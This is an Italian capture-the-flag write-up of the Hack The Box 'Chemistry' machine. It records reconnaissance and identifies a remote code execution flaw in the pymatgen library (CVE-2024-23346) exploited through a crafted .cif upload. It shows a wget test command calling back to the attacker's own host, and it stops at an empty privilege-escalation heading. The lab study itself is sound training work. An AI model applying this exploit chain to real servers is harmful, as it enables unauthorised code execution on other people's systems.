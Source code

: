 # Chemistry HTB challenge WRITEUP
Made by: [Gianlush](https://github.com/Gianlush/)

## Information Gathering

Come prima cosa si effettua come sempre una scansione `nmap` sull'ip fornito. Si scopre cosi la presenza di un servizio web sulla porta `5000`. 

Qui, non sembrano esserci molti indizi sul tipo di infrastruttura utilizzata, oltre a ciò che è visibile analizzando le richiesta HTTP con BurpSuite, ad esempio l'header: `Server: Werkzeug/3.0.3 Python/3.9.5`. 

### Possibili punti di attacco
Ci si può registrare ed effettuare login. Ho provato ad eseguire `SQLi` e ad inserire vari altri caratteri speciali senza però alcun risultato.

La WebApp consente l'upload di un file `.cif` che rappresenta le caratteristiche fisiche di un cristallo. Ho provato l'upload di file malevoli come i `Eicar files` che contengono delle firme che fanno scattare molti antivirus, ma non è successo niente di particolare.

Ho fatto anche vari altri test quali `Web Content discovery` con tool di fuzzing quali `GoBuster` per la ricerca di files, directory o vhosts, senza alcun risultato. Quindi ho deciso di cercare qualcosa in più sul tema della webapp (Crystallographic Information File) e sui file di tipo `.cif` e qualcosa è saltato fuori. Esiste infatti la [CVE-2024-23346](https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346) riguardante una libreria python che effettua il parsing di file `.cif`.

## Exploit Pymatgen Library (CVE-2024-23346)

La vulnerabilità consente l'esecuzione di comandi in remoto tramite l'upload di un file formattato ad hoc in modo da rompere il processo di parsing. Se il server fa realmente uso di questa libreria (il che è probabile dato che come è stato visto in fase di [Information Gathering](#information-gathering), si fa uso di `Python/3.9.5`).

Il payload finale è contenuto all'interno del file [vuln.cif](./vuln.cif), ed è stato ottenuto dalla [PoC](https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346) della CVE sopracitata, ma inizialmente per testare la presenza o meno di tale vulnerabilità ho provato a fare eseguire un comando semplice come:

```bash
wget http://{my-ip}:8000
```
Funziona:

![wget](images/wget.png)

## Privilege Escalation




